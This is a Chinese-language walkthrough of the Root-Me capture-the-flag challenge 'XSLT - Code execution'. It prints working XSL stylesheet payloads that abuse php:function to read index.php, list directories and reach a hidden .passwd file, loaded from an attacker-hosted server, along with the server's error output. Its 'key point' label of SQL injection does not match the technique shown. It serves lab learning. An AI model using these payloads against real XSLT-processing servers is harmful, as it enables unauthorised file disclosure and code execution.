





Root-Me [XSLT - Code execution](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
===

感覺像是選擇樣板的功能頁面(?

## 解題關鍵
1. SQL-Injection

## 提示訊息
```
Find the vulnerability and exploit it to read the file .passwd in a subdirectory of the challenge tree.
```

## 解題方法
首先參考官方提供的 `related ressource(s)`，其中有一份文件 [XSLT Processing Security and
Server Side Request Forgeries](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf) 很詳細說明該漏洞的實作方法，其中第 30 頁的部分如下。  

  

直接給出了 `Code Execution for php` 的利用方法，簡單的說漏洞利用有點像之前練習的 [XXE](https://mks.tw/2918/)，透過外部實體引入的方式進行攻擊。  

首先在外部伺服器創建一個 `mksyi.xsl` 並且設定檔案內容如下。  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
		<xsl:value-of select="php:function('file_get_contents', 'index.php')" />
	</xsl:template>
</xsl:stylesheet>
```

接著回到該題的頁面上，並且修改 POST 的內容為 `http://{HOST}/{file}.xsl` ，讓該頁面去讀取外部的 xsl，如下圖。  

  

成功讀取到 `index.php` 頁面，由於該次目標是 `.passwd`，直覺想到的是 `/etc/passwd`，但該題似乎有限制沒辦法讀取上層目錄，回應訊息如下。  

```
Warning: file_get_contents(): open_basedir restriction in effect. File(/etc/passwd) is not within the allowed path(s): (/challenge/web-serveur/ch50) in /challenge/web-serveur/ch50/index.php on line 13 Warning: file_get_contents(/etc/passwd): failed to open stream: Operation not permitted in /challenge/web-serveur/ch50/index.php on line 13 false
```

並且嘗試過 `system()`、`shell_exec()` 等方法執行系統指令，但回應訊息如下。  

```
Warning: shell_exec() has been disabled for security reasons in /challenge/web-serveur/ch50/index.php on line 13
```

然後折騰了好一段時間發現...這題真的有夠機車，先想辦法把目錄下的檔案 Dump 出來，使用的 `xsl` 如下。  

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
        <xsl:value-of select="php:function('opendir','.')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
	</xsl:template>
</xsl:stylesheet>
```

接著拿到這樣的一串東西，如下。  

```
Resource id #6..beers.xml._nginx.http-level.incstyle1.xsl._nginx.server-level.incstyle2.xsl._firewall.style3.xslindex.php._php-fpm.pool.inc.6ff3200bee785801f420fba826ffcdee
```

簡單手工分析之後如下。  

```
esource id #6
beers.xml
_nginx.http-level.inc
style1.xsl
_nginx.server-level.inc
style2.xsl
_firewall
style3.xsl
index.php
_php-fpm.pool.inc
.6ff3200bee785801f420fba826ffcdee
```

這邊最可疑的檔案就是 `.6ff3200bee785801f420fba826ffcdee`，於是就用 `file_get_contents` 去讀取他，結果什麼東西都沒跑出來...，於是繼續探勘其他地方，直到想破頭，上 Rootme 社群找線索，發現文章（[傳送門](https://www.root-me.org/?page=forum&id_thread=10302&lang=en)）如下。  

  

看到該提示就恍然大悟，`.6ff3200bee785801f420fba826ffcdee` 可能是目錄，而不是檔案，而目標 `.passwd` 可能就藏在其中，所以修改 Payload 如下。  

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl">
	<xsl:output method="html"/>
	<xsl:template match="/">
        <xsl:value-of select="php:function('opendir','.6ff3200bee785801f420fba826ffcdee')"/>
        <xsl:value-of select="php:function('readdir')"/>
        <xsl:value-of select="php:function('readdir')"/>
	</xsl:template>
</xsl:stylesheet>
```

果不其然的出現了關鍵字!!  

  

接著就用 `file_get_contents` 讀取該檔案，解決該題...。  

  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)